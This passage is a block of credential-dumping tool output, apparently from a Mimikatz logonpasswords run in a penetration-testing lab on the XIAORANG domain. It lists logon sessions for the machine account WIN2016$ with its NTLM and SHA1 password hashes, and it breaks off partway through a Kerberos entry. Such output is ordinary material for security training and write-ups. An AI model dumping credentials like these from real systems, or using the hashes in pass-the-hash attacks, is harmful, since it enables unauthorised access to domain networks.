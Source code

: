 ```shell
Session           : Service from 0
User Name         : WIN2016$
Domain            : XIAORANG
Logon Server      : (null)
Logon Time        : 2023/7/30 16:21:58
SID               : S-1-5-20
	msv :	
	 [00000003] Primary
	 * Username : WIN2016$
	 * Domain   : XIAORANG
	 * NTLM     : 02b2a436556a3dd5d6638ad03f87c43e
	 * SHA1     : c81ff31553d1e42093c29c46ed26bdca3257cc40
	tspkg :	
	wdigest :	
	 * Username : WIN2016$
	 * Domain   : XIAORANG
	 * Password : (null)
	kerberos :	
	 * Username : win2016$
	 * Domain   : XIAORANG.LAB
	 * Password : ...... (略)
	ssp :	
	credman :	

Authentication Id : 0 ; 23516 (00000000:00005bdc)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 2023/7/30 16:21:58
SID               : 
	msv :	
	 [00000003] Primary
	 * Username : WIN2016$
	 * Domain   : XIAORANG
	 * NTLM     : 02b2a436556a3dd5d6638ad03f87c43e
	 * SHA1     : c81ff31553d1e42093c29c46ed26bdca3257cc40
	tspkg :	
	wdigest :	
	kerberos :	
	ssp :	
	credman :	

Authentication Id : 0 ; 15442286 (00000000:00eba16e)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2023/7/30 17:28:42
SID               : S-1-5-90-0-2
	msv :	
	 [00000003] Primary
	 * Username : WIN2016$
	 * Domain   : XIAORANG
	 * NTLM     : 02b2a436556a3dd5d6638ad03f87c43e
	 * SHA1     : c81ff31553d1e42093c29c46ed26bdca3257cc40
	tspkg :	
	wdigest :	
	 * Username : WIN2016$
	 * Domain   : XIAORANG
	 * Password : (null)
	kerberos :	
	 * Username : WIN2016$
```